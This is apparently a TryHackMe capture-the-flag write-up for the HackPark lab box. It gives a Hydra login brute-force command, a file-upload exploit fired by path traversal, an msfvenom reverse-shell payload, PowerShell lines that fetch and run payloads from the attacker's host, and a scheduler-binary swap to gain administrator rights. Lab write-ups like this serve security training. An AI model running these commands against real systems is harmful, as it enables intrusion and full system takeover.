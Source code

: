 ```yaml
---
layout: post
title: TryHackMe HackPark
image: /assets/img/HackPark/main.png
author: Edwards 
date: 2020-11-02
categories : [CTF, TryHackMe]
tags: [Web, Windows, Medium, Hydra, winPEAS]
math: true
---
```


# HackPark

## Through this box I learned :
- How to use Hydra and inspect for a post request.
- Upload a file in BlogEngine.net 
- Gain access to a meterpreter shell with a reverse_tcp payload.
- Use WinPeas.
- Take advantage of the Windows Scheduler to priv esc.

### Section 1 : Scanning and Recon

Let's start with a nmap : 

![image](/assets/img/HackPark/nmap.png)

We see that a web server is running, let's go check what it's all about.

![image](/assets/img/HackPark/web.png)

On the nav-bar, you see that their is a page to log-in, let's check that out.

![image](/assets/img/HackPark/navlog.png)

We have a log-in page, THM tells us to use Hydra to brute-force a login so let's do it !

![image](/assets/img/HackPark/login.png)

### Brute Forcing with Hydra 

_Hydra is a parallelized, fast and flexible login cracker._

First, we need to know the type of request the form is making to the webserver.
I just inspected the page then search for "method" in the search bar.

![image](/assets/img/HackPark/method.png)

Then launch the hydra attack with the following : 
```bash 
hydra -v -l admin -P /home/edwards/Downloads/rockyou.txt 10.10.7.187 http-post-form "/Account/login.aspx:__VIEWSTATE=%2BzSkE5rKklYx2evyff1oZJyuSWT7%2FP%2BrwCqOuY9eQFnN3I9b9H%2FemK0b4edjD%2BX4D0kYN6MJXUIltXwXt0PReeyBxoseUQg%2BlNpW6CHIGWNzl%2FGSvdwSZX179PJ%2FI3%2F64LNM7KzKj9sc4BMO83WdCE0KH%2FPjXAKd4RAQ7poy1tOiO7cd&__EVENTVALIDATION=8UPWUPAn6s7hJvO0Pl8kCCO3NAmIgs7nlpsgIlY%2FBUKl7fwtvPmUalPJ5PygYkVuz1H356PzRXwi%2FHQ3z8iJpgXHs8%2BloBQ4qlIePP6FdcvcR2qoLptuS0C5xNkNhrzvN5IJshWQx%2BF3kjK4PfMhuSyiPjbKZA2aFsYrqvz5b2BHveGR&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -t 64
```

- In this code, we have to change the Password and Username to set the variable, and put the "Login Failed", so Hydra will know when the password will be the good one.

With the post that was on the main page, we can guess that the username is admin.
Then we need to give a list to find the password and the right request that we found with the inspect element (or with BurpSuite)

![image](/assets/img/HackPark/hydra.png)

Let's login after our Brute Forcing Attack.

On the "about" section, we find interesting informations about he blogengine version.

![image](/assets/img/HackPark/version.png)

Let's google the version to find an exploit. 
On exploit DB I found this : 

![image](/assets/img/HackPark/cve.png)

We have all the informations required to launch this exploit successfully. 
We need first to change the ip addresse and the port inside the file.

![image](/assets/img/HackPark/postac.png)

Save it as PostView.ascx then go to the editor, create a new post or take the one already created.

Select the icon to upload a file. 

![image](/assets/img/HackPark/upload.png)

Set up a netcat connection.
```bash 
nc -lnvp 5555 
```

Then go the url specified in the exploit file to trigger your payload. 
```bash 
http://<ip>/?theme=../../App_Data/files
```

And normally on your netcat terminal you will have a shell ! 

![image](/assets/img/HackPark/netcat1.png)

### Section 3 : Priv esc with Metasploit

We need to get a meterpreter session, since the one we have right now is pretty unstable.
We are gonna create a msfvenom payload, then set a multi handler on our msf console.

First, download the payload with msfvenom.
```bash 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.15.91 LPORT=4555 -f exe > shell.exe
```

![image](/assets/img/HackPark/createpayload.png)


We need to find a directory where we have to right to put a file in.
I went to c:\Windows\Temp, in general it's commun that you will have the authorization to write in it. 

Set up a python simple server on an other terminal to send the payload.
```bash
python -m http.server
```

![image](/assets/img/HackPark/python.png)

Then upload the msfvenom payload in the windows machine. 
```bash
powershell -c "Invoke-WebRequest -Uri 'http://10.11.15.91:8000/shell.exe' -OutFile 'shell.exe'
```

![image](/assets/img/HackPark/upload1.png)
_As you can see the file is in_

Now we are gonna create a listener on metasploit.

![image](/assets/img/HackPark/msfoptions.png)
_Be sure to set the same port that the mfsvenom payload that you created before_

Launch the shell.exe
```bash
.\shell.exe
```

And you will have a meterepreter session open ;) 

![image](/assets/img/HackPark/meter.png)

### Section 4 : Priv esc with winPEAS 

I'm gonna upload winPEAS on the machine to get infos.

Same manipulation with the python server up. 

```bash
powershell -c "Invoke-WebRequest -Uri 'http://10.11..15.91:8000/winPEAS.bat' -OutFile 'winPEAS.bat'
```

You can also use the 'ps' command of meterpreter for this box.

![image](/assets/img/HackPark/winupload.png)

Launch winPEAS to get plenty of useful informations about the machine. 

We can see that there is a WindowsScheduler process running, that can be exploitable.

![image](/assets/img/HackPark/scedule.png)

Let's move to the SystemScheduler directory located at : 
c:\Program Files (x86)\SystemScheduler

![image](/assets/img/HackPark/ls.png)

We have an events directory, let's see what's inside.

![image](/assets/img/HackPark/events.png)

I looked into the "20198415519.INI_LOG.txt" 
Inside you can see that every 30 sec, the Message.exe is launched then killed, since the file runs as Administrator we can take advantage of this to create a payload and run it as Message.Exe.

![image](/assets/img/HackPark/log.png)

Upload again your shell.exe in the previous directory where Message.exe is stored.
```bash
powershell -c "Invoke-WebRequest -Uri 'http://10.11.15.91:8000/shell.exe' -OutFile 'shell.exe'
```

![image](/assets/img/HackPark/shell.png)
_The file is uploaded into the SystemScheduler_

Then move the Message.exe as Message.bat and your shell.exe as Message.exe

Background your session, run the listener again and you will have an other session opening and you will be Administrator !

![image](/assets/img/HackPark/admin.png)

Then you can look for flags.

